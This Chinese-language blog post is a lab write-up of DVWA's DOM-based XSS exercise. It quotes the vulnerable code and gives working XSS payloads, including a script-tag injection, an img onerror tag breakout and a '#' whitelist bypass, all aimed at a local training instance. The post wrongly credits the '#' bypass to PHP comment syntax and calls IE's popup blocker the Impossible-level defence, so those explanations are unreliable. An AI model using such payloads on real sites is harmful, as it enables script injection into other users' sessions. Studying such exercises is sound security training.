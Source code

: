 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (DOM)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (DOM)，即DOM型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-22
author:     K4ys0n
header-img: img/post-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (DOM)

DOM型的XSS一般需要找到修改HTML内容的JavaScript代码，包含类似document.body.innerHtml的代码内容。



## 0x01 Low

#### 源码分析
```html
<div class="body_padded">
	<h1>Vulnerability: DOM Based Cross Site Scripting (XSS)</h1>

	<div class="vulnerable_code_area">
 
 		<p>Please choose a language:</p>

		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
	</div>
```
可以看到在index.php中的script标签中，有一段JavaScript代码，意思是在select下拉框中会输出当前url中的default参数的值，可以直接插入XSS攻击脚本。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
弹窗成功！ 



## 0x02 Medium

#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```
在Low级别的基础上，后台还做了检查，stripos函数过滤掉script。

大小写与双写均无法绕过，可以用img等标签攻击，但是需要闭合option和select标签，因为img标签无法在option和select标签内生效。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English</option></select><img src='1' onerror='alert(1);'/>
```
弹窗成功！ 



## 0x03 High

#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```
在Low级别的基础上，做了switch-case选择，只有在正确匹配的时候才会继续，否则都默认跳转到default=English的情况。

咋一看可能没有办法绕过了，但是php中还可以利用单行注释符#号进行绕过。

#### 解题思路
构造注入语句如：
```html
French# <script>alert(1);</script>
```
就会在case的时候只用#号前面的字符串进行匹配，即French（使用其它几个也可以），后面的攻击代码会被当做注释；但整个字符串在后面还是会作为变量继续在HTML中输出。从而导致XSS攻击。

在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English# <script>alert(1);</script>
```
弹窗成功！



## 0x04 Impossible

#### 源码分析
无源码。

这一级别是直接用客户端浏览器自带的XSS Filter功能来防止弹框，而没有设置后台XSS检查。

打开ie浏览器 -> Internet选项 -> 隐私 -> 勾选\“启用弹出窗口阻止程序\” -> 确定。

然后再去访问如下链接时：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
就会发现浏览器进行了阻止，从而达到保护的目的。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 同其他类型XSS注入一样。
- 客户端浏览器自身启动XSS Filter功能。